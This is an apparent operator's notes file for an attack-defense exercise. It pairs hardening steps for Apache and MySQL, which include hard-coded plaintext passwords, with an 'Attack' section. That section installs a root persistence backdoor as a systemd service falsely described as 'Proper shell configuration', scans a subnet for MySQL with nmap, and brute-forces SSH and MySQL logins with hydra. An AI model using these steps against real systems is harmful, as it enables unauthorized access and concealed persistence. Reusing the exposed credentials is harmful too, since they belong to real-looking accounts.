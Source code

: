# Wilbur

## Change password of system users
`echo 'admin:jnjhuuinbuzeuzbcbhbhscel84786873zuhsdf' | chpasswd --crypt-method SHA512`

## Change apache
`DocumentRoot "/var/www/deathtohumanity"`

Then restart apache2 service `sudo systemctl restart apache2 `

## Disable mysql public appearance

### Update users
```
# Change passwords:
ALTER USER 'userName'@'localhost' IDENTIFIED BY 'New-Password-Here';
FLUSH PRIVILEGES;
# Drop users:
DROP USER 'jeffrey'@'localhost';

```


### Localhost only
Put following lines in `/etc/mysql/my.cnf`
```bash
[mysqld]
bind-address = 127.0.0.1
mysqlx_bind_address = 127.0.0.1

```

session = mysqlx.get_session({
    'host': '10.6.18.85',
    'port': 33060,
    'user': 'root',
    'password': '_theGate&Thekey'
})

Then restart mysql service `sudo systemctl restart mysql `

# Attack

## Backdoor

1. Login as root
2. Place backdoor in `/etc/shell.conf`
3. Add systemctl service
    - create `/etc/systemd/system/shell.service`
        ```bash
        [Unit]
        Description=Proper shell configuration.

        [Service]
        Type=simple
        Restart=always
        RestartSec=3
        ExecStart=/usr/bin/python3 /etc/shell.conf
        Environment=PYTHONUNBUFFERED=1

        [Install]
        WantedBy=default.target
        ```
    - `systemctl enable shell`
    - `systemctl start shell`

Targeted:
- `10.6.18.85:33333`


## Find IPs with open MySQL ports
`nmap 10.6.18.0/24 -p3306 --open -oG - | awk '/Up$/{print $2}'`

## SSH
`hydra -C users.txt 10.6.18.185 ssh`

## MySQL
`hydra -C users.txt 10.6.18.185 mysql`



